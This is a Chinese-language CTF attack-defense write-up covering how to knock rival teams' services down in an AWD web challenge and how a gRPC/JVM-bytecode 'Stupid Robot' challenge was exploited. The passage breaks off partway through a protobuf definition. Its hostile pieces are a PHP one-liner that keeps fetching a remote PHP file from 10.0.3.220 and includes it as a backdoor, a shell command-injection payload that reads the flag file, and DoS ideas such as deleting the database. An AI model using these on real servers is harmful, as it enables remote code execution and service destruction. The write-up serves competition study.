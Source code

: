 打down服务：

我一直说，AWD Web题最大的攻击点根本不是拿到flag，而是打down服务。打down其他队伍的服务才是最大的攻击。而这个Web也是可以攻击的。

整个题目的DOS思路应该有三种，修改SECURITY_KEY、删除数据库、打downFPM。比赛的时候，我后面主要打了前两者。不过，那时候因为慢了几分钟，打的时候，大家已经都挂了。

回顾：

- 由于手速慢，导致后面打RCE的时候，晚了10分钟。这10分钟直接导致这个题目打的很不理想。3点会闭榜，而且比赛间隔加速到2.30一轮。这个时候，应该是P4？向全场打了一波DOS，应该是修改了SECURITY_KEY。这个时候，直接导致全场的服务down机，而且还使我们后面的RCE没办法攻击，这让我们打的非常被动，赛场压力非常大。

- 高压下，思维不够稳定与活跃。主办方的加waf策略，其实是可以利用的。我们可以给自己的waf写一个一句话自己的md5木马。这样就可以通过后门管理自己的服务器了。并且，还可以通过waf来动态加载我们长度超过限制的waf.php。这个思路一开始一直没想到，在比赛最后才想到。这个想想实在是不应该，值得反思。

  ```php
  <?php if (!file_exists(“/tmp/.moxiaoxi.php”) || abs(time() - filemtime(“/tmp/.moxiaoxi.php”)) > 15) copy(“https://10.0.3.220:8227/moxiaoxi.php”, “/tmp/.moxiaoxi.php”); include “/tmp/.moxiaoxi.php”;
  ```

  当时，一直觉得没有rce没办法给自己的服务器写文件，因此没办法使用这种动态加载的方法。其实，仔细思考就会发现，我们的waf.php就是一个给选手的后门。我们可以利用waf.php先给自己种一个后门。



----

## Stupid Robot

这个题目是我们能够夺冠的主要关键。因为针对这个题目，我们实现了一套隐蔽的混淆策略，导致大家都没办法重放我们的流量。这个题目，我们获得了28259分，而其他队伍最高也只有3921分，被带飞。

这个题目是一个建立在HTTP2上用GRPC通信的服务，主要有三个漏洞，第一个是命令注入(`/calc 1+1" | cat /home/stupid_robot/flag; echo "..............`)，就是第一天大家打的。

Riatre:

> 另外两个利用点处在bytecode翻译成jvm bytecode过程中，题目会对我们发出去的指令进行计算，并记录这条指令之前所有指令转译的时候，需要多出n条JVM指令。因此，跳转时，主要跳转我们发过去的指令（jump index+n）
>
> 第一个bug是有一条指令（newarray）的处理里，if else 判断了protobuf里enum定义的三种类型，但是没有default case。
>
> 而protobuf的一个特点是双向向后兼容，所以我们可以给服务端发enum里本来没定义的值，只要客户端进行了定义即可。
>
> 此时，服务端在处理的时候本来是该插3条指令进去，但记录附加指令数为2。因为实际插两条进去，这会导致后面所有的跳转目标都会偏移一条jvm指令。
>
> 第二个bug是在tableswitch和lookupswitch，这两个指令里面分别有一个客户端发过去的偏移量字段，而根本没有检查实际多出来多少的表。
>
> 此外，存在一个Machineid指令，用于判断Robot是否是admin。如果是admin的话，就返回flag。但是，打开admin模式，需要提供flag的sha256。因此，正常情况下，该逻辑失效。
>
> 但是，我们可以通过跳转偏移的bug，跳过Machinied指令实际实现的前三条jvm指令，这样就能跳过admin判断。

首先，可以通过https://github.com/gajendrakmr/ProtoBuff-Fuzzing直接从jar中导出proto.

```java
syntax = "proto3";
package robot;
option java_multiple_files = true;
option java_package = "ctf.hitcon.robot";
service Robot {
    rpc Send(stream CommandRequest) returns (stream CommandResponse);
}
message CommandRequest {
    oneof data {
        string message = 1;
        Code code = 2;
    }
}
message CommandResponse {
    string response = 1;
}
message Add {
```